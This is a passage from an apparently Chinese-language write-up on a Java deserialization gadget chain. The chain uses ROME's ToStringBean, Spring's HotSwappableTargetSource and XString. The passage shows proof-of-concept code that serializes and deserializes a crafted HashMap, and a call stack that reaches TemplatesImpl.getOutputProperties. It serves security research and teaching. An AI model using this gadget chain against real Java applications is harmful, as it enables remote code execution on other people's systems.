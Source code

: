 ```bash

        // 创建HotSwappableTargetSource
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");


        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("HotSwap.bin"));
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("HotSwap.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```bash
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
readObject:1397, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:60, HotSwapExp (RomeSec)
```
